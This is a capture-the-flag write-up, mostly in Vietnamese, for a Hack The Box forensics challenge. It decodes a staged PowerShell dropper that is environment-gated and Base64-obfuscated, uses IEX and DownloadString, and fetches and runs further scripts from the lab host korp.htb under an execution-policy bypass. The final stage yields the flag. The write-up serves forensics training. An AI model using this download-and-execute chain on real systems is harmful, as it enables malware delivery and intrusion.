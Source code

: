 # Thorin’s Amulet 

### Details:
Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened?** Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.**

### Solution:
Ví dụ Docker instance: `94.237.51.163:57889`

Challenge cho chúng ta file `.ps1` :
```ps1
# artifact.ps1
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Đoạn code có 1 đoạn đang bị encode Base64: `SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=`, ta tiến hành decode nó:

```bash
# bash
> echo SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik= | base64 -d
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Đoạn code sẽ tiến hành download từ link `http://korp.htb/update` . Note của đề bài cho ta biết `korp.htb` sẽ mapping tới docker spawn của mình nên mình sẽ sửa link thành `http://94.237.51.163:57889/update`
Ta tiến hành tải file từ link và nhận được 1 file `update.ps1`:

```ps1
# update.ps1
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Chương trình sẽ request tới `http://korp.htb/a541a` với header đã cung cấp để tải và thực thi file có tên là `a541a.ps1`
Ta tiến hành sửa code `.ps1` để thực hiện mỗi tải file để phân tích:
```ps1
Invoke-WebRequest -Uri "http://94.237.51.163:57889/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
```

Ta được tải được file có nội dung:
```ps1

# a541a.ps1
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

Code sẽ decode string từ hex value, ta tiến thành thực hiện nó và có flag:

`HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`


